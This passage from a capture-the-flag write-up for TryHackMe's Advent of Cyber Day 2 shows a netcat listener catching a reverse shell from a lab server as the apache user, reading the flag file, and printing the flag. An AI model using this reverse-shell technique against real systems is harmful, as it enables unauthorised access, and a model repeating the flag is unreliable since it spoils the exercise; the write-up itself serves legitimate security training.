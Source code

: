 <center><a href="12.png"><img src="12.png" /></a></center>
<figcaption>Get shell.</figcaption>
</figure>


Now if we look to our terminal, we successfully logged in to the machine's shell.
```bash
kali@kali:~$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.9.2.21] from (UNKNOWN) [10.10.13.59] 40848
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:04:09 up  1:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (827): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```

Let's `cat` the `/var/www/flag.txt` to see the flag!
```bash
sh-4.4$ cat /var/www/flag.txt
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```
The flag is **THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}**.
